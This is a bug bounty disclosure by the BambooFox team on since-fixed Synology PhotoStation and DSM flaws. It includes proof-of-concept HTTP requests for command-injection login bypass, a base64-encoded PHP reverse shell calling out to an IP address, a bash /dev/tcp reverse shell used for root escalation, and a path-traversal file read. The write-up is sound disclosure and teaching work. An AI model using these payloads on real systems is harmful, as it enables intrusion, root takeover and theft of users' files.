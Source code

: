 ```yaml
---
title: '[Synology Bug Bounty 2016]'
author: BambooFox
tags:
  - web
  - 'Synology Bug Bounty '
  - bug bounty
  - DoS
  - LFI
  - command injection
categories:
  - write-ups
  - bug-bounty-report
date: 2017-03-20 07:28:00
---
```

Synology Bug Bounty Report
=============

> Author: BambooFox Team 
> ( Henry, jpeanut, ding, leepupu, Angelboy, boik, adr, Mango King, Bletchley )

Last year ( 2016 ) , we BambooFox were invited to join the Synology Bug Bounty program. After about 2 months of hacking, we discovered several vulnerabilities, including a **remote root code execution** vulnerability. Synology engineers response and fix the vulnerabilities in a very sort time, which shows they pay a lot of attention to security issues.

And now ( in 2017 ) , we are allowed to publish the vulnerabilities:  
* [Vul-01 PhotoStation Login without password](#Vul-01-PhotoStation-Login-without-password )
* [Vul-02 PhotoStation Remote Code Execution](#Vul-02-PhotoStation-Remote-Code-Execution)
* [Vul-03 Read-Write Arbitrary Files](#Vul-03-Read-Write-Arbitrary-Files)
* [Vul-04 Privilege Escalation](#Vul-04-Privilege-Escalation)
* [Vul-05 DoS via Blocking IP](#Vul-05-DoS-via-Blocking-IP)
* [Vul-06 Local File Inclusion](#Vul-06-Local-File-Inclusion)

## Vul-01: PhotoStation Login without password
---
We mostly focus on **PhotoStation**, which is the picture management system enabled in most Synology DSM ( DiskStation Manager ).

The first vulnerability allowed us to **login as admin without entering the password.**

PoC1:
```
GET //photo/login.php?usr=admin&sid=xxx&SynoToken=/bin/true HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept:    text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: |
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

The key points are the `|` character in the `X-Forwarded-For` field and `/bin/true` in the get parameter `SynoToken`. The server site CGI will concatenate the strings in `usr`, `X-Forwarded-For` and `SynoToken` into a command and execute the command, and the special characters `|` and `>` aren't filtered out correctly, which will lead to the **command injection** vulnerability. 

Therefore in our PoC1, the command will become:
```
/usr/syno/bin/synophoto_dsm_user username | /bin/true
```

The command will return 0 (True) and thus bypass the authentication.

**Result:
Adversary can login as admin without password**

![Login without password](http://i.imgur.com/pnIWZ6t.png)

Adversary can also login as admin by the following PoC:

```
GET /photo/photo_login.php
action=login&username=admin&password=%26
```

The source code that handle the user authentication are in `photo_login.php`:

```php
$retval = csSYNOPhotoMisc::ExecCmd('/usr/syno/bin/synophoto_dsm_user', array('--auth', $user, $pass), false, $result);
```

Once the `$pass` variable is `&`, the command will be executed in the background and always return 0 (true), thus the adversary can login as admin.


## Vul-02: PhotoStation Remote Code Execution
---
After we successfully login as admin via the command injection vulnerability, we extended the attack surface to attempt remote code execution.

PoC2: 
1 . Encode the command into base64 format
```
base64encode( $sock=fsockopen("......",8080);exec("/bin/sh -i <&3 >&3 2>&3"); )
=> JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOw==
```

2 . Send the payload
```
GET //photo/login.php?usr=|&sid=php&SynoToken=eval%28base64_decode%28%22JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA%2bJjMgMj4mMyIpOw%3D%3D%22%29%29%3B HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: -r
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

We adopted a similar approach (PoC1) in order to achieve RCE.

We then took a deep look into the source code of PhotoStation, and found the following code:
```php
if ($x_forward) {
    $ip = $x_forward;
}
// ...
$retval = csSYNOPhotoMisc::ExecCmd('/usr/syno/bin/synophoto_dsm_user', array('--current', $user, $session_id, $ip, $synotoken), false, $isValidUser);

if ($retval === 0) {
    $login_status = true;
} else {
    // login failed
}
```

In this code snippet, `$user`, `$ip` and `$synotoken` can be easily controlled by crafting the HTTP headers, and that's the original cause of the command injection vulnerability.  
Our first few attempts failed due to the site filtered out some special characters. However, we noticed that the site did not filtered out all the special characters. Here's the code that indicated the non-filtered characters:
```php
static $skipEscape = array('>', '<', '|', '&');
```

As a result of the code above, `>`, `<`, `|` and `&` can be used to achieve command injection.

![Remote Code Execution](http://i.imgur.com/qJxpKq8.png)

## Vul-03: Read-Write Arbitrary Files
---
After we got the shell, we continued to find security flaws in the DSM. The binary program `synophoto_dsm_user` got our attention. This binary is a **setuid program**, and has a powerful copy function.  
With the `--copy` parameter, it will do the `cp` command and **copy a file with the root permission**. This make us have the ability to read/write an arbitrary file .

## Vul-04: Privilege Escalation
---
With the previous Vul-03, we can exploit the vulnerability and **escalate our privilege to root**. We first tried modify the `/etc/crontab` file, but failed due to the [AppArmor](https://en.wikipedia.org/wiki/AppArmor) protection. So we change our target to the file that will be invoked by crontab. Finally we found `/tmp/synoschedtask`, a task which will be invoked by crontab as root. We use `synophoto_dsm_user` to modify its file content to the following command:
```
/volume1/photo/bash -c '/volume1/photo/bash -i >& /dev/tcp/x.x.x.x/yyyyy 0>&1'
```

Now we can wait for our reverse shell, with the root permission.
![Remote Code Execution](http://i.imgur.com/5YrQU54.jpg)


Also by exploiting Vul-02 ( RCE ) and Vul-03 ( Read-Write Arbitrary Files ), we're able to login the service as as admin. If the admin is logged in, we can use the following command to get the admin's session ID:

```
usr/syno/bin/synophoto_dsm_user --copy root /usr/syno/etc/private/session/current.users /volume1/photo/current.users
```

Although the server side will check the admin's IP address, but the check can be bypassed easily by forging the `X-Forwarded-For` header.

**Login as admin give us the ability to execute command with the root permission**. For example, we can execute our own command as root with the help of **Task Scheduler**. This result in a privilege escalation as well.


## Vul-05: DoS via Blocking IP
---
We also found some other security flaws.
If a user sends too many requests to `forget_passwd.cgi`, the user will be blocked by his IP, which is retrieved from the `X-Forwarded-For` header.
However, `X-Forwarded-For` can be easily forged from the client side, therefore an attacker can block as many users as he wants by forging the `X-Forwarded-For` header, leading a DoS attack.
![Block IP](http://i.imgur.com/aU9IDWm.png)

## Vul-06: Local File Inclusion
---
There's a LFI (Local File Inclusion) vulnerability in `download.php`. The `id` parameter is controllable.  
For example, we can use `../../../../../../var/services/homes/[username]/.gitconfig` to download a user's git config file.

![Local File Inclusion](http://i.imgur.com/ZpL5Tw7.png)  



## Timeline
* 2016/07/25 Report vulnerabilities to Synology
* 2016/09/01 Confirm that all vulnerabilities have already been fixed by Synology
* 2017/03/13 Confirm that we're allowed to publish the bug bounty report
* 2017/03/20 Synology Bug Bounty Report published


## Note
Some of the vulnerabilities have already been discovered by Lucas Leong from Trend Micro ( [link](http://seclists.org/oss-sec/2016/q1/236) )
